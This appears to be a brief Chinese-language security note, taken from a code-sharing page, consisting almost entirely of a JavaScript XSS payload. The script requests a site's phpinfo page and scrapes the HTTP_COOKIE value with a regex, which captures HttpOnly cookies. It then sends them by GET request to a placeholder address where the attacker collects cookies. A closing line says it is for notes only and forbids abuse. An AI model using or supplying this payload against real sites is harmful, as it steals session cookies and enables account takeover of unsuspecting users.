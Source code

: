 ### `XSS`代码

```javascript
<script>
function createXmlHttp() {
    if (window.XMLHttpRequest) {
       xmlHttp = new XMLHttpRequest();               
    } else {
       xmlHttp = new ActiveXObject("Microsoft.XMLHTTP");
    }
}
function getS() {
    var Url = 'PHPinfo的地址';
    createXmlHttp();
    xmlHttp.onreadystatechange = writeS;
    xmlHttp.open("GET", Url, true);
    xmlHttp.send(null);
}
function writeS() {
    if (xmlHttp.readyState == 4) {
     var x = xmlHttp.responseText.match(/HTTP_COOKIE.+?<\/td><td.+?>([\w\W]+?)<\/td>/);
     if (x){
        var url = "自己收取cookie的地址" + x[1]; //x 为带httponly cookie的所有cookie
        createXmlHttp();
        xmlHttp.open("GET", url, true);
        xmlHttp.send(null);  
       }   
    }
}
getS();
</script>
```

来源：https://www.t00ls.net/thread-55915-1-1.html https://www.t00ls.net/thread-55912-1-1.html

仅作笔记.禁止滥用.